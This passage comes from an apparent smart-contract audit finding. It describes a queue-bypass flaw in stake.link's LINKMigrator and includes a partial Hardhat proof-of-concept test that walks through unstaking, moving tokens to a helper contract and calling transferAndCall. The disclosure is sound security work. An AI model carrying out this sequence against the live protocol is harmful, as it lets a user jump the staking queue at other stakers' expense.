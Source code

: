 Here, the user's principal is recorded. Later, the migration is completed via `transferAndCall`, which triggers [`LINKMigrator::onTokenTransfer`](https://github.com/stakedotlink/contracts/blob/0bd5e1eecd866b2077d6887e922c4c5940a6b452/contracts/linkStaking/LINKMigrator.sol#L100-L117):

```solidity
uint256 amountWithdrawn = migration.principalAmount -
    communityPool.getStakerPrincipal(_sender);
if (amountWithdrawn < _value) revert InsufficientTokensWithdrawn();
```

This compares the recorded and current principal to verify the withdrawal. However, it does not validate that the total staked amount in the community pool has decreased. As a result, a user can withdraw their position, transfer it to a contract they control, and still pass the check, allowing them to deposit directly into stake.link and bypass the queue.

**Impact:** A user with an existing position in the Chainlink community vault can circumvent the queue system and gain direct access to stake.link staking. This requires being in the claim period, having sufficient LINK to stake again, and available space in the Chainlink community vault. It also resets the bonding period, meaning the user would need to wait another 28 days (the Chainlink bonding period at the time of writing) before interacting with the new position. Nevertheless, this behavior could lead to unfair queue-skipping and undermine the fairness of the protocol.

**Proof of Concept:** Add the following test to `link-migrator.ts` which demonstrates the queue bypass by simulating a migration and re-staking via a third contract::
```javascript
it('can bypass queue using existing position', async () => {
  const { migrator, communityPool, accounts, token, stakingPool } = await loadFixture(
    deployFixture
  )

  // increase max pool size so we have space for the extra position
  await communityPool.setMaxPoolSize(toEther(3000))

  // deploy our small contract to hold the existing position
  const chainlinkPosition = (await deploy('ChainlinkPosition', [
    communityPool.target,
    token.target,
  ])) as ChainlinkPosition

  // get to claim period
  await communityPool.unbond()
  await time.increase(unbondingPeriod)

  // start batch transaction
  await ethers.provider.send('evm_setAutomine', [false])

  // 1. call initiate migration
  await migrator.initiateMigration(toEther(1000))

  // 2. unstake
  await communityPool.unstake(toEther(1000))

  // 3. transfer the existing position to a contract you control
  await token.transfer(chainlinkPosition.target, toEther(1000))
  await chainlinkPosition.deposit()

  // 4. transferAndCall a new position bypassing the queue
  await token.transferAndCall(
    migrator.target,
    toEther(1000),
    ethers.AbiCoder.defaultAbiCoder().encode(['bytes[]'], [[encodeVaults([])]])
  )
  await ethers.provider.send('evm_mine')
  await ethers.provider.send('evm_setAutomine', [true])

  // user has both a 1000 LINK position in stake.link StakingPool and chainlink community pool
```